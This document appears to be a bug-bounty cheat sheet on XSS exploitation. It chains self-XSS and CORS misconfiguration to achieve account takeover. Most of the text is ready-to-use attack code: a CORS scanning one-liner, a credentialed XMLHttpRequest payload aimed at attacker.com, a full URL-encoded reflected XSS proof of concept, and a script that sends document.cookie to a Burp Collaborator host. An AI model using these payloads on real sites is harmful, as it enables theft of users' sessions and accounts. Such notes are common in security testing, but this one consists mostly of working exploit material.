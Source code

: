 # XSS Exploitation
	
- Self XSS + CORS = ATO
	```bash
		<https://notifybugme.medium.com/chaining-cors-by-reflected-xss-to-account-takeover-my-first-blog-5b4f12b43c70>
		1. Got self XSS ?
		2. cat corstexturl.txt | CorsMe or cat corstexturl.txt | soru -u | anew |while read host do ; do curl -s — path-as-is — insecure -H “Origin: test.com” “$host” | grep -qs “Access-control-allow-origin: test.com” && echo “$host \\033[0;31m” cors Vulnerable;done
		3. So to exploit this CORS Misconfiguration we just need to replace the XSS payload alert(document.domain), with the following code:
		
		function cors() {  
		var xhttp = new XMLHttpRequest();  
		xhttp.onreadystatechange = function() {    
			if (this.status == 200) {    
			alert(this.responseText);     
			document.getElementById("demo").innerHTML = this.responseText;    
			}  
		};  
		xhttp.open("GET", "<https://www.attacker.com/api/account>", true);  
		xhttp.withCredentials = true;  
		xhttp.send();
		}
		cors();
		4. So here is the final POC
		<https://test.attacker.com/patter.jsp?facct=>"><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","<https://www.attacker.com/api/account>",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
	```
	
- Self XSS to ATO
	
	```python
	## convert self xss to reflected one
	copy response in a file.html -> it will work
	```
	
- XSS to ATO
	
	```jsx
	<script>
	fetch('<https://BURP-COLLABORATOR-SUBDOMAIN>', {
	method: 'POST',
	mode: 'no-cors',
	body:document.cookie
	});
	</script>
	```
	